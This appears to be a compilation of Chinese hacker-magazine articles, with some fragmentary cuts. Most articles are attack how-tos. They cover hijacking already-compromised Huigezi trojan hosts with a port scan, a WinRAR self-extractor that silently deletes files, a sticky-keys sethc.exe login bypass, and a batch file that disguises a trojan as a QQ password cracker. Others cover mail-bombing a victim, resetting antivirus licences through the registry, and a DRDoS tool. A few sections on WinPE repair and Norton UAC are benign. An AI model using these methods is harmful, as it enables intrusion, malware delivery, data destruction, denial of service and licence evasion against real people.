点击“SIGN UP”按钮进入注册页面（如图3）。“Name”是名字（不能是中文），“User name”是你连接 VPN 时要用到的用户名，可以随便填写，但必须要记住；“E-mail address”是电子邮件地址，经过我的测试，注册 relakks 的用户是不需要电子邮件验证的，也就是说你随便输入一个电子邮件地址就能注册成功；“Password”和“Repeat password”就是密码和重复输入密码，这里要注意的是它要求密码长度必须大于等于8位，否则将注册不成功。我填写的用户名是 hackerxfiles，密码是 12345678，全部填写完毕后点“Submit”按钮进行提交，如果没有出错的话就会出现注册成功的页面了，如图4。页面中会显示你注册的用户名和密码，大家一定要记住。在页面下方还会给出注册网址和时间。我们要连接 VPN，还得知道 VPN 服务器的域名或 IP 地址，这个可以在网站的“问答”中找到，我找到的它所使用的域名为 pptp.relakks.com，大家直接使用就可以了。


图3


图4

有了 VPN 的用户名、密码和连接服务器的域名，我们就可以建立 VPN 并连接了。我以 Windows XP 系统为例：打开网上邻居，选择“查看网络连接”，然后点击“创建一个新的连接”，在弹出的页面中点击下一步，选择“连接到我的工作场所的网络”，然后选择“虚拟专用网络连接”，在公司名中随便输入一个名字（比如我输入的是 hackerxfiles 投稿演示），点击下一步后选择“不拨初始连接”，在接下来的主机名或 IP 地址中输入 pptp.relakks.com 并点击下一步，勾选上“在我的桌面上添加一个到此连接的快捷方式”后就可以点击“完成”了。这时就会自动弹出“连接 hackerxfiles 投稿演示”的窗口，直接输入你的用户名和密码，点击“连接”后当出现“在网络上注册您的计算机成功”时你的 VPN 就已经连接上了。我们打开 http://www.ip138.com/ 看看，已经是瑞典的 IP 地址了，如图5。


图5

- 有时候连接不上，过一段时间后再连接就好了；根据我使用了几天的经验，在上午的时候几乎全部能连接上，但是一到晚上就会很难连接上了。
- 在本机上连接一切正常，可是到了虚拟机中却怎么也连接不上（在虚拟机中把上网方式更换成桥接后又可以连接成功，但本机却不能上网了）。

对于以上的两点还希望大家注意一下，尽管存在一些小问题，但 relakks 作为一款免费的 VPN 还是很值得使用的，希望这个 VPN 在叉子们练手时能起到隐藏和保护自己的作用。

### 灰鸽子内网上线新方法

3少

关于木马的内网上线，是小菜们非常感兴趣的一个话题。我目前所使用的一个内网上线方法，还是我的好友“鱼子项”在我刚入门时教我的。那时候我经常去网吧上网，而且也刚学会配置木马，因为没有自己的空间，所以只能使用 3322 域名上线的方式。可是在内网中我又没有外网可以直接连接的 IP 地址，按照网上一些教程中所介绍的上线方法去做也都失败了（我们这儿的网管普遍比较牛）。多亏好友“鱼子项”相救，介绍了一种非常实用的上线方法，此种方法不伤人、不害己，绝对是小菜们大战网吧的必备技术。而用到的工具嘛，使用 s.exe 扫描器就可以。

大家都知道，灰鸽子中有一个自带的内网端口映射工具，而它默认使用的为9999端口，如图1。因此大部分开启这个端口的电脑都有可能是被别人入侵后留下来用于内网上线的，我们就正好可以借用一下。先使用 s.exe 扫描开启9999端口的电脑，其命令格式为“s tcp 开始IP 结束IP 端口 线程”，比如我们执行 `s tcp 60.10.0.0 60.15.0.0 9999 100`，等一会儿就会扫描出许多开启9999端口的电脑了，如图2。


图1


图2


打开灰鸽子，选择“工具”下的“内网映射”，在“VPort 服务端 IP”中填写扫描到的 IP 地址，“控制端口”当然填写9999了，点击启动的“连接”按钮，在最下方就会提示“连接成功！可以进行端口映射了！”，如图3。我们再将需要映射的端口填写到相应的地方，然后点击后边的“映射”按钮，映射按钮就会变成灰色不可选状态了，如图4。


好了，现在已经映射成功了，接下来就是在 3322 域名那里进行修改了（使用空间上传 `ip.txt` 的修改也是一样的），主要目的是使被控端指向我们映射的 IP 地址。来到 3322.org，登录后在动态域名处进行修改 IP 地址，也就是修改成我们映射时使用的 IP 地址，最后点击“确定”完成修改，如图5。只要注意一些细节“肉鸡”就上线了，所谓的细节就是指映射的端口是否相同，如图6。

### 一分钟用 WinRAR 制作破坏系统程序

王水

最近我安装了 WinRAR 的3.71版本，在研究新旧版本的 WinRAR 有何区别时，意外地发现经过特定设置而创建的自解压缩包（该压缩包不含有任何木马或病毒）可以自动删除解压缩者的硬盘文件，甚至达到破坏系统的效果。

具体的操作步骤如下：首先右键点击要压缩的文件，在右键菜单中选择“添加到压缩文件(A)...”，在弹出的“压缩文件名和参数”对话框中勾选“创建自解压格式压缩文件”，如图1。然后选择“高级”下的“自解压选项”，如图2，在弹出的“高级自解压选项”中选择“常规”，在这里可以设置解压路径。

在“解压路径”中输入 `C:\test\`，而下面的“保存并恢复路径”选项千万不要选中，否则可能会出现意外的情况，如图3。接下来就是关键了，选择“高级”，在“目标文件夹中要删除的文件”中输入 `*.*`，如图4，然后连续按两次确定按钮，完成自解压缩包的创建。

文件创建好了，接下来我们测试一下效果吧。首先在 C 盘根目录下建立一个名为 `test` 的文件夹，然后随便在 `test` 文件夹下创建一些子文件夹和文件。运行刚才创建的自解压缩程序，点击“安装”，此时再去看看 `C:\test\` 文件夹下的内容，我们会发现只剩下当前被压缩的文件，而刚才创建的其它文件夹和文件全部都消失了。这不是很可怕吗？在没有任何提示的情况下，特定目录下的所有文件都被删除了。


用着无疑会遭受巨大的损失。试想一下，我们从网上下载了一个游戏，运行安装程序后，却突然发现硬盘某个分区已经变得空空如也了……如果在高级自解压选项中将“安静模式”设为“全部隐藏”、“覆盖方式”设置为“覆盖所有文件”，那么双击运行自解压程序就可能立即执行删除操作。

其实要解决这种问题也很简单，右键点击自解压文件，选择“属性”，查看注释。若注释中有类似“Delete=*.*”的命令（如图5），就不要直接双击运行，而应右键选择“解压到当前文件夹”。进行实验时要严格限制在测试目录中，避免误删重要文件。


### 系统问题，WinPE 帮你搞定

evil.eagle

WinPE 是什么？WinPE（Windows Preinstallation Environment）是基于保护模式下运行的 Windows 内核环境，可看作一个简化版 Windows XP 系统，提供核心 Win32 子系统能力。

我们首先下载一个 WinPE。文中建议使用老毛桃修改版，并通过 U 盘启动维护盘制作工具来构建可启动 U 盘，以便在无硬盘或系统异常时进入 WinPE。

在介绍 WinPE 功能前需要准备：一个128M以上 U 盘，运行 USB 启动维护盘制作工具并按提示安装（图1），安装完成后再运行该工具（图2）。


图1


图2


图3

启动后的界面如图3所示，把 U 盘插到电脑上，点击“启动U盘专用USB-HDD模式格式化工具”，会弹出如图4界面。点击“开始”后会将 U 盘格式化为可引导 U 盘（注意提前备份数据）。返回主界面点击“已经准备完毕，继续下一步”，进入图5。


图4


图5

点击“开始制作”按钮，完成后即可得到可引导电脑的 U 盘。

#### 一、破解系统密码

相信许多小菜都遇到过忘记系统登录密码的情况，尤其是忘记了 Administrator 账号的密码，连安全模式都无法进入。还有时候我们想限制别人的电脑，怕被发现电脑设置了登录密码，而我们又不知道，这该怎么办呢？请出我们的 WinPE！首先把 U 盘插到电脑上，在电脑启动时按 F8 进入 CMOS 设置菜单，将电脑设成从 USB-HDD 引导进入（每个主板的情况可能不太一样，小菜们请参照自己主板的说明书来进行设置），这样电脑就会先从我们的 U 盘启动了，如图6。我们选择启动 WinPE 维护系统，然后就可以进入 WinPE 系统了，界面很简洁吧，如图7。运行 Windows 密码修复工具，先选择好 Windows 系统的所在目录，然后在左侧选择要执行的操作，比如修改现有用户的密码或是新建一个管理员用户什么的都可以，如图8，选择好后点“应用”按钮就行了，重新启动系统，密码就已经被破解掉了。


#### 二、手杀病毒

很多情况下，我们查出了病毒是哪个文件，但是由于病毒采取了某种保护技术，使得其难以被删除，比如插入线程的 DLL 文件、无法结束病毒的进程等，甚至于有些病毒在安全模式下也是可以启动的。对于这种情况，使用 WinPE 就是很好的选择了。我们同样启动到 WinPE 系统，然后直接从磁盘中找到那个病毒文件，选中后点右键，选择删除就可以了，清除病毒就是这么简单；另外我们还可以使用 WinPE 提供的注册表修改器修改本地系统的注册表，将病毒留下的残余信息删除掉。还有些病毒是注册成系统服务或者驱动的，这时我们还可以使用服务驱动管理，在运行时提示是否载入远程链接（HIVE），选择“是”，然后选择系统所在的目录，这时我们就可以查看本地系统的服务和驱动了，找到病毒留下的文件，删除后就行了。

#### 三、硬盘安装系统

有时，我们的系统确实需要重装，但是光驱划坏掉了，或者手头没有系统安装盘，只有光盘镜像，那要怎么重装系统呢？没关系，我们仍然可以使用 WinPE，把光盘镜像文件解压到某个分区（C盘以外），然后运行我们 U 盘里的 WinPE 安装\安装.exe，选择普通安装，外部程序路径选择 d:\ 就行，等文件复制完毕后重启电脑，我们就会发现系统启动时除了 Windows XP 外还多了一个 WinPE 选项，选择从 WinPE 启动，这次进入的 WinPE 系统是在我们本地磁盘里的而非 U 盘中的系统。为什么一定要这样呢？Windows 安装时会把引导信息写入第0个硬盘，如果从 U 盘启动，那么 U 盘就会被识别为第0个硬盘，这样引导信息就无法写入到我们的硬盘中，下次启动时就无法从硬盘启动了。运行后将 C 盘格式化，然后运行 WinPE 的 Windows 安装助手，如图9，把该填的都填好，上面的安装文件目录选择刚才镜像解压后的目录，点击“安装”，系统就会安装了。之所以不直接在 Windows XP 下完成，是因为在 Windows XP 下 C 盘无法格式化，而在 WinPE 下运行时，WinPE 是直接加载到内存中的，所以硬盘中的文件可以直接被删除掉，这也是为什么要在 WinPE 下格式化 C 盘的原因。


#### 四、主引导记录修复

也许有小菜们曾经安装过 Linux 系统，但是在卸载的时候却碰上了大麻烦，因为把 Linux 所在的盘格式化后 Windows 也无法启动了。我先给大家简单介绍一下原理：硬盘一开始有一段叫主引导记录（MBR）的空间，里面存储了一段程序和分区信息，当系统启动时会把代码载入内存，然后执行。主引导记录里的代码负责选择要启动的系统，并运行该系统里的初始化程序。Linux 系统在安装时会把 MBR 覆盖掉，而它的配置文件也在 Linux 的分区下，所以当 Linux 的分区被格式化后，配置文件不存在了，引导记录代码不知道该如何引导到 Windows，所以自然也就无法进入系统了。我们可以先使用 WinPE 启动电脑，然后在 WinPE 下进行修复。

复，从U盘启动到 WinPE，这里我们需要一个叫做 MbrFix.exe 的小程序，事先把它存放在 U 盘中，然后在 WinPE 下运行，输入命令 `MbrFix /drive 1 fixmbr /yes`，这样主引导记录就会恢复成 Windows 的引导记录了，现在原来的 Windows 界面就又会回来了。

恢复过的系统里是没有文件碎片的，当我们的系统分区碎片太多时也可以使用 Ghost 恢复一下，比碎片整理要快得多。

#### 五、备份/恢复系统

我们总不至于每次系统崩溃了就要重装一次系统吧，那样也太麻烦了，好在 WinPE 也提供了 Ghost，有两个版本，分别是 8.3 和 11，我们使用 11 的版本。启动 Ghost 后的界面如图10所示，如果我们要备份系统，就依次选择 local->Partition->to image，然后选择系统所在的硬盘分区，并选择备份文件要保存的目录，接着就会有压缩提示，选择 high（节省空间嘛），然后 Ghost 就会创建备份文件了。当我们需要恢复的时候，就依次选择 local->Partition->from image，然后选择以前备份的文件，和要恢复的硬盘分区，Ghost 就会为我们恢复系统了。使用 Ghost 当然 WinPE 的功能还有很多，限于篇幅我就不多介绍了，还请大家自己去发现吧！

（本文所涉及到的 USB 启动维护盘制作工具，MbrFix.exe 已收录到光盘中）


## 演示 Windows2000 和 2003 的输入法

CJ也疯狂

关于 Windows 系统的输入法漏洞，在《黑客X档案》上曾经不止一次地提到过了，这次我给大家带来的也是基于输入法的漏洞入侵，只不同的是新的输入法和新的思路。提起这次的入侵，还有一个小故事呢。

本人最近新到了一家网络公司，由于是新来的，没有个人电脑使用，每次就只好蹭别人的电脑使用，趁对方不在的时候赶紧摸摸心爱的电脑。但是有一天对方给电脑添加了新的登录密码，害得我只有在边上看的份了。使用以前研究过的输入法本地提权也没有起效，按五下 SHIFT 键也是徒劳，切换输入法也只有那些默认的，根本就找不到任何突破的方法。

这天，那位同事突然有事要外出，但走的时候却把电脑锁住了，当时他走得太匆忙也不知道是碰到了哪个键，居然在屏幕的左下角出现了第三方输入法：极品五笔输入法，如图1。我看了下居然是最新版本的，记得以前的版本是有漏洞的，但这个却是最新的 6.8 版本，不知道这有没有漏洞，抱着试一试的态度我就开始了突破之旅。


点击输入法调出菜单，我在“帮助”下看到了“操作指南”和“使用技巧”这两项，如图2，点击“操作指南”，这下我兴奋了，大家看到图3中的那个“Internet 选项”了吗？这里就是我的突破口。点击“Internet 选项”后，我看到了熟悉的 IE 设置界面，因为我也不知道哪些可以利用所以只好在里面瞎找，看看有没有什么可以利用的，能够让我导出 cmd.exe 来添加用户的地方。

一晃大半天，终于打开了 IE 设置里的“辅助功能”选项，之前在基本 IE 设置里点遍了都没有找到。我们勾选上那个“用户样式表”，就会出现我们熟悉的“浏览”按钮了，如图4。打开宝箱看看吧，宝藏就在里面。终于找到了我熟悉的 cmd.exe 的目录，本以为就要成功了，可谁知宝箱里居然还有一个小箱子，当我在 cmd.exe 上点右键选择打开时，居然没有弹出那个黑色的运行界面，怎么搞的，为什么运行不了？我又尝试打开别的程序以试图调出 cmd.exe，但都是无法运行要不就是无法找到报错，真是令人郁闷呀，下班的时间不等人，就这样我只好无奈地回家了。

在回去的路上我苦思冥想，怀疑是因为权限不够造成的，要不然怎么会运行不成功呢？既然都已经找到了 cmd.exe 了，那离胜利也不会太远了。到家里就是对系统的一通折腾，首先研究如何才能切换出那个输入法，经过多次的测试，终于发现在 Windows2000/2003 下可以使用 SHIFT+ALT 键调出来。按照前边的操作重新来到 cmd.exe 所在的目录下，解决无法运行 cmd.exe 的问题。

这次我决定换个思路，不直接运行 cmd.exe，而是使用按五下 SHIFT 键调出粘滞键的后门。接下来就是大胆的尝试了，不过使得这个方法的前提是必须要有正确命名的编辑权限，否则就会无法替换文件的。编辑+替换成功了，我把 cmd.exe 复制到了 system32 目录下，并改名为了 sethc.exe，如图5。返回到登录界面，我狂喜地快速按了五下 SHIFT 键，调出我们重命名的 sethc.exe 文件，功夫不负有心人，我们熟悉的命令行终于弹出来了，如图6。剩下的操作就不用我多说了吧，添加一个管理员用户，尽情地享受喜悦吧！


图4  图5


图6

### 纯手工悠悠木马攻略

枫叶泪


在这个木马横行的网络时代，杀毒软件的更新总是将一批“老马”扼死在沙滩上，同样一批“新马”刚出生想走得远点，可残酷的现实却总是将其扼杀在襁褓中。木马的成功运行一直是个令人头疼的问题，但如果我们偶尔动动脑筋的话也许会让其猖獗过关哦。

正常情况下木马只是一个 EXE 文件，现在就连小小菜都知道这是不能随便打开运行的。在文章的开始我向大家介绍一个有趣的现象，我们把任意的一个小软件（只有一个 EXE 的文件）进行双击打开，软件正常地打开了，如图1。

接着我们把其重命名为 1.RAR，在改名时系统会有提示，选择“确定”，如图2。接着再次双击该文件时就会发生错误提示信息，如图3。这是因为它的扩展名发生了改变而导致程序不能正常运行。


图1

我们按 WIN+R 组合键打开“运行”栏，输入 CMD 打开命令提示符，进入到该文件所在的目录，输入文件名 1.RAR 后回车，奇迹出现了，软件又被正常地打开了，如图4。是不是很有意思呢？其实这里的文件名是可以随意更改的，也就是 *.* 格式了（*为任意字符），只要在命令提示符窗口中输入相应的路径与文件名就可以正常打开软件。如果我们把木马文件当成刚才的那个小软件，是不是就可以打造出属于我们自己的悠悠木马了。

第一步：准备一个木马文件，我使用的是 KingHanp.exe，把木马文件改名为 KingHanp.rar，如果系统不显示文件的扩展名，我们可以到“工具”菜单的“文件夹选项”中把“隐藏已知文件的扩展名”前面的小勾去掉即可，如图5。


图2


图3


图4


图5

- 2. 第二步：打开记事本，输入以下代码，如图6：

```bat
@echo 欢迎使用最新QQ相册密码暴力破解（绿色自动安装版）
@pause
@echo off
start KingHanp.rar
exit
```


接着将其保存为 `*.bat`，并伪装成“点我自动安装软件.bat”。

- 3. 第三步：把“KingHanp.rar”和“点我自动安装软件.bat”选中，右键选择“添加到压缩文件”，如图7。


给生成的 RAR 文件起一个具有迷惑性的名字并发送给对方。压缩包内含“KingHanp.rar”（木马）与“点我自动安装软件.bat”。双击后会出现伪装提示窗口，按任意键后木马运行并自动关闭窗口。

最后解释代码：`@echo` 用于设置命令行显示；`@pause` 暂停并等待按键；`@echo off` 执行时不显示命令；`start KingHanp.rar` 打开文件；`exit` 执行后关闭窗口。


## 小菜也来学简单电子邮箱疯狂乱发防范（标题含“邮件炸弹”）

电子邮箱作为网络中重要的通信方式，被企业及个人广泛使用，也成为攻击目标。本文介绍简单的电子邮件攻击及其防范。

电子邮件攻击是对目标邮箱进行大量发送，影响其正常使用，进而影响网络稳定，这类方式通常被称为“邮件炸弹”。

工具示例为“随意邮件炸弹 v1.8”。先填写本机 DNS 地址（可在 CMD 执行 `ipconfig /all` 查询），再在左侧输入发件邮箱列表；可设置延时与发送次数，并填写主题、发件人与正文内容。


点击“发送”按钮后便开始发送邮件，发送时的状态也会在主界面中显示出来，也就是会显示出总发送次数和已发送次数。发送完毕后，我们打开刚才设置的邮箱看看，果真收到了“×封垃圾邮件……”。这里仅是简单测试而已，如果攻击者真的向他人的邮箱疯狂发送垃圾邮件的话，后果真的会不堪设想，甚至连对方邮件的正常接收都会成问题。

……首先打开 Outlook Express，点击主界面上的“工具”，在弹出的下拉菜单中选择“邮件规则”→“邮件”，如图5，这时就会弹出“新建邮件规则”窗口。在“选择规则条件”中选择过滤方式，这里我们可以选择“在发件人行中包含用户”，在“选择规则操作”中选择对邮件的过滤方式，最好选择“不从服务器中下载”或“从服务器中删除”。这时在规则描述框中会出现带下划线的“包含用户”，点击它，在出现的“选择用户”对话框中输入收到的垃圾邮件地址，然后点击确定，如图7。这样，当再次发送垃圾邮件时，邮件就已经被过滤了。

当然，对于“邮件炸弹”的防范方法还有很多，比如使用 Foxmail 的邮件过滤器或者使用专业的垃圾邮件清除软件等，这里就不细说了。总之，最重要的还是要有较强的网络安全意识，不要在网站或论坛上随意公开自己的邮箱地址，养成良好的上网习惯，这样才能做到真正的防范于未然。

### 教菜鸟编写批处理无限使用卡巴斯基

馨馨

卡巴斯基绝对是杀毒软件中的精品，深受菜鸟们的喜爱，可是卡巴斯基官方却大量封杀 key，使得不少没有安装正版的用户叫苦不迭。网上流传的删除注册表项来无限使用的方法实在太麻烦了，于是小菜鸟就编写了这个菜鸟级的批处理文件，该工具适用于卡巴斯基 6.0 和 7.0 版，下面就是批处理的内容：

```bat
@echo off
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\KasperskyLab\LicStorage" /f
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography\RNG" /f
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates\SPC\Certificates" /f
@echo 命令成功，谢谢使用……
pause
```

新建一个 txt 文本文件，将以上命令复制粘贴进去，把文件名扩展名改为 bat 格式，我们的卡巴斯基无限激活工具就制作好了！下面简单介绍一下以上命令的意思。批处理就是系统命令的集合，这里真正有用的命令只有三行：

```bat
@echo off
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\KasperskyLab\LicStorage" /f
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography\RNG" /f
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates\SPC\Certificates" /f
```

“@echo off”的意思就是接下来的一行命令不显示；reg 是系统命令中操作注册表的命令；“reg delete ...”就是删除相应注册表项；“/f”参数则表示不询问用户而直接删除；最后的 pause 表示暂停。


- 工具的使用方法如下：
1. 关闭卡巴斯基（注意是全部关闭，可先关闭“启用自我保护”后再退出）。
2. 双击运行“卡巴斯基激活.bat”（如图1）。
3. 重新启动卡巴斯基，激活 30 天试用（如图2），到期后重复以上操作即可继续使用。

### 映像劫持制作 CMD 机器锁

EaseNet


大部分的 CMD 加密器都是对 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor` 下的 Auto 键值进行设置，当 CMD 运行的时候首先执行一个密码验证才行。来看一个我以前编写的批处理文件：

```bat
@echo off
cls
:beigain
echo 请输入运行密码
set /p password=
echo "%password%"|findstr "lovebaobao"
if "%errorlevel%"=="0" echo 密码正确 & goto end
echo 密码错误 & goto beigain
:end
set password=>nul
set errorlevel=>nul
echo 你成功登录系统
```


将这个文件保存为 `1.bat`，执行后的结果如图1所示。进一步输入不同数量的引号会出现不同结果（如图2）：输入奇数个引号时会暴露密码字符串，输入偶数个时会提示错误。这说明 `echo` 在某些引号组合下会把后续命令暴露出来，因此需要更安全的写法。

```bat
:beigain
@echo off
set /p a=请输入密码
if %a%==hacker (goto test) else goto error
:test
goto end
:error
echo 密码错误&&goto beigain
:end
echo 密码正确，登录成功
```

使用这样的代码就可以比较好地避开上面的问题。但其本质仍然依赖注册表 Auto 键值，攻击者可以通过覆盖注册表值绕过所谓“锁”。下面给出另一种方式：制作一个登录程序并利用映像劫持机制调用。


程序运行后可按需设置账户和密码（默认账户 `hacker`，密码 `123`）。将 `%systemroot%/system32` 下的 `cmd.exe` 复制到其它目录并重命名（如 `air.exe`），再把 `air.exe` 放回 `system32`，随后写入如下注册表：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\cmd.exe]
"debugger"="c:\test.exe"
```

将文件保存为 `cmd.reg` 并导入后，运行 CMD 时会先弹出账户密码验证。文末强调该技术是双刃剑，需用于安全研究而非破坏。

### “刷”百度空间流量的好工具——百度无名访客


作者介绍一款可用于百度空间访问传播的小工具。运行后在“空间地址”填写目标地址，勾选“尾巴传播/基传摇/自动压缩”等选项，点击“生成访客”可在同目录生成 `Come.exe`（约 36K）。文中称其便于传播且不易被查杀，最后提醒读者自行体验。

## Nod32 狂刷半年激活码

林中闲人（晋忠亮）


ESET Nod32 杀毒软件就不用我多说了吧，它在国际网络安全行业中享有极高的声誉。最近 NOD32 联合 360 安全卫士推出了 360 专版，可以免费试用半年。免费试用的激活方法和卡巴斯基一样，都是通过激活码进行激活的。想当初卡巴的激活码大家也没少刷吧，我们今天就来刷 Nod32 半年的激活码。


- 1. 首先打开 `http://tq.360.cn/trail-c.html` 获取激活码页面（如图1），该页面通过安装 360 专版得到。输入验证码后即可得到激活码（如图2）。
- 2. 到 `X:\Documents and Settings\你的用户名\Cookies` 目录，找到 `administrator@tq.360[].txt` 并删除（如图3）。也可在 IE 中通过“工具 -> Internet 选项 -> 常规 -> 删除 Cookies”进行（如图4），但会删除全部网站 Cookies。
- 3. 重新打开获取激活码页面，重复上述步骤即可再次获取新的激活码。

## 巧借网站制作邮箱炸弹

zhongke08


没事闲逛网站，发现很多网站的某些功能如果能够充分利用起来的话将是个很好的武器，下面我就介绍一下如何利用网站来制作邮箱炸弹。

首先打开“快门”网站 `http://shutter.cdream.com/`，然后点击“申请 Shutter 号”进入注册页面（如图1）。填写好注册资料，不过这里大家需要注意一下，此处的电子邮件填写的不是你自己的电子邮件，而是你要攻击的邮箱，点击“提交帐号申请”进入到下一个页面（如图2）。

到这里聪明的你会发现什么了吧？我们就是利用激活邮件来攻击别人的，大家可以不停地点“未收到邮件”……


发一次”，这样对方就会不停地收到邮件了，如图3。我点了没几下，大家看我用来测试的邮箱中就收到了36封邮件，如图4，这样是不是就相当于一个邮件炸弹呢？

### 一起来认识 DRDoS

西决（吴岸）

相信小菜们对于拒绝服务攻击并不陌生吧，这次我要为大家介绍的是 DRDoS，没错，它不是 DDoS，而是 DRDoS。DRDoS 即英文 “Distributed Reflection Denial of Service Attack” 的缩写，中文意思就是“分布式反射拒绝服务攻击”。可能有许多小菜还不太明白，不要心急，下面我就来简单阐述一下它的原理。

DRDoS 是通过发送带有受害者 IP 地址的 SYN 连接请求包给攻击主机 BGP，然后再根据 TCP 三次握手的规则，这些攻击主机 BGP 会向源 IP（受害者 IP）发出 SYN+ACK 包来响应这些请求，造成受害者主机忙于处理这些回应而被拒绝服务攻击，如图1。

简单说明之后，大家是否还一头雾水呢？这里我再给大家举个例子，比如我以 A 的名义写信给“黑客X档案”编辑部，而编辑部的每一位编辑通过编辑部知道了此信，并且回复了此信，但信上的地址是 A 的，所以回复信将指向 A 而不是写信的我。A 无缘无故收到了许多信，很郁闷吧？相信许多细心的朋友已经发现了 DRDoS 与 DDoS 一个明显的不同之处，就在这个 “A” 上。“A” 即为反射的意思，也正是此法的特点所在。

但也不是什么都可以随便拿上手的，反射源的好坏直接影响着我们攻击的效果。关键就在于反射源的选取，也就是上文所提到的攻击主机 BGP 的选取工作。给大家一些关于 BGP 的概念：BGP 是中介路由器支持的“边界网关协议”（Border Gateway Protocol），路由器使用 BGP 与它们的邻居进行即时的信息交流来交换它们的路由表，这是为了通知它们每个路由器可以在哪个 IP 范围内进行转交。BGP 的细节并不重要，每个良好连接的中介器都会接受它们端口上的连接。换言之，任何一个 SYN 数据包到达一个网络路由器上后，都会引出一个该路由的 SYN/ACK 响应包。所以利用了 BGP 的特性实现了反射放大洪水攻击。

为反射源的。虽然如此，不过少了 BGP 的工序，我们的 Distributed Reflection Denial of Service Attack 也就等于退化了，失去了其本身很大一部分的功效，所以说反射源的选取是很关键、很重要的！

DRDoS 的威力是很强的，一些攻击者经常使用几百 MB 的带宽，然后通过借用中间主机反射就可以把攻击效果放大到数十 GB，一个普通的网站能撑得了多久？所以我们一定要慎用才是！DRDoS 发动攻击可以不需要调用大量的傀儡机器，同时也可以很好地隐藏攻击者的行踪，这些我就不多说了。

既然 Distributed Reflection Denial of Service Attack 的威力这么强，相信小菜们早就迫不及待地想要试一试了吧。接下来我就给大家推荐一款 DRDoS 软件——Smart DRDoS。软件运行后的界面如图2所示，软件的功能及使用都非常简单。可以看到，此版本的 Smart DRDoS 能实现基本的端口扫描功能以及基本的 DRDoS 攻击。我用来演示的版本较低，所以其功能也比较少，界面也不太美观（当初发布时，作者技术也还不太成熟）。我们在“受击域名”上填写想要攻击的网站域名，比如我填写的是 Yahoo 的网站域名，点击后边的箭头就可以将其转换为 IP 地址。在右下方填写有关反射源的参数，大家可以自由发挥了，在左边可以扫描一下端口，最后点击“DrDos 攻击”就可以了。因为作者使用的是循环攻击，所以初步测试会有假死的现象。这里我就不测试了，许多 DRDoS 工具的原理和方法都是大同小异的。

目前，在网络上也有一些工具提供，操作都比较容易，大家可以到一些可以信任的安全网站下载回来后感受一下。不过，我要提醒一下大家，可不要随意去攻击别人的网站哦，小心被警察叔叔请去喝茶，本文的目的仅是为了学习交流！

（本文所涉及到的 Smart DRDoS 已收录到光盘中）

### 用赛门铁克弥补 UAC 的不足之处

蜀国布衣

使用过 Vista 系统的用户都知道，Vista 系统的特色就是玻璃效果和 UAC，但 UAC 却是一个让人又爱又恨的功能。它在系统安全防范上起到了重要作用，但频繁弹窗也让用户难以接受。赛门铁克发布的 Norton UAC Tool 可以弥补 Vista 系统 UAC 功能上的不足，让 UAC 运行更智能化。

#### 一、工具的安装

由于 Norton UAC Tool 本身是英文软件，因此我们可以先下载汉化版，再进行本地化安装。安装时程序会询问用户是否启用系统的 UAC 功能。安装完成后需要重启系统，重启后即可正常使用 Norton UAC Tool，在杀毒软件失效时可作为最后一道保护屏障。

2. 如果用户可以肯定该程序的安全性，那么点击“允许”按钮后程序就可以运行了。为了避免 Norton UAC Tool 重复拦截，可以勾选弹窗中的“不要再询问我”选项。

由此可以看出，Norton UAC Tool 和 Vista 中的 UAC 一样也有不同提示等级：具备安全认证且位于系统保护目录中的程序，通常属于 Windows 自带程序；有认证但不在保护目录中的，多为大公司软件；没有认证且不在保护目录中的，风险更高，可能会被拦截。Norton UAC Tool 还会收集用户选择情况，完善白名单机制。

#### 二、拦截智能化

Norton UAC Tool 虽然还在测试阶段，但已能自动接管 Vista 的 UAC 功能。以往用户运行程序时，常常不看提示直接放行；而 Norton UAC Tool 在得到用户首次同意后可自动判断后续操作。它能在不频繁打扰用户的前提下完成拦截判断，并给出拦截原因说明。

#### 三、弥补不足处

Norton UAC Tool 除了让 UAC 更智能化外，还可弥补 UAC 的若干缺陷。例如某些捆绑文件可能借助权限继承获得高权限；安装 Norton UAC Tool 后，无论程序来源如何，运行时都会按规则判断，并及时提示可疑文件。

（本文所涉及到的 Norton UAC Tool 已收录到光盘中）

### 你的个人移动虚拟 PC——Prayaya V3

txcbg

在网吧上网的小菜一定遇到过以下烦恼吧：

- QQ 的聊天记录不方便保存（你是 QQ 会员除外）。
- 网吧中没有安装的软件在下载安装后，下次再来上网时还需要重新下载安装。
- 发现的一些好网址没办法保存，个人文档设置也没办法保存。

现在 Prayaya V3 来了，上面的那些烦恼就可以统统抛弃了。

Prayaya V3 是一个“绿色迷你 Windows”，是一个虚拟的 Windows 系统。它可以部署在任意非 Windows 系统分区（如 U 盘、移动硬盘、MP3/MP4 设备）中，便于携带应用与数据。重装系统或更换电脑后，无需重复安装应用，以前的数据（收藏夹、Cookie、历史记录、聊天记录、网络电话记录、邮件等）也可保留。我们只需要在任意 Windows（Win2000、XP、Vista）上启动 Prayaya V3，就可以使用安装在 Prayaya V3 上的应用程序了。

在你 USB 设备上的 Prayaya V3 软件可以让你像在自己的电脑上使用软件一样，你的应用软件、数据和用户设置都将保存在可移动存储设备上。当从电脑上正常退出 Prayaya V3 和可移动存储设备时，不会在你使用的电脑上留下任何私人信息，对于那些经常在网吧上网的用户非常方便。有了 Prayaya V3，就相当于有了自己的移动 PC，可以像使用自己的专属 PC 一样来保存自己的东西了。

我们首先从 http://www.onlinedown.net/soft/63685.htm 下载最新版的 Prayaya V3，下载后双击运行开始安装，一路点击“下一步”就来到了选择安装磁盘的地方。如果你提前在电脑上插上了移动存储设备，不用担心，安装程序会自动识别出来的，如图1。

为了以后方便使用，我选择安装到了 U 盘上，点击“下一步”，就开始向 U 盘安装文件了。安装完毕后直接点击桌面上的 Prayaya V3 快捷方式，或者直接点击安装在 U 盘根目录下的 StartV3.exe，就可以启动 Prayaya V3 了。第一次启动时会弹出提示注册的对话框，我们选择继续试用（如果想注册的话大家可以在网上找到注册码），启动后的默认界面如图2所示。点击“设置”，然后选择“安全”选项。为了能保存自己的数据和用户设置，把临时文件夹位置设置为“存放到 V3”；为了增加安全性，还可以设置保护密码，如图3。

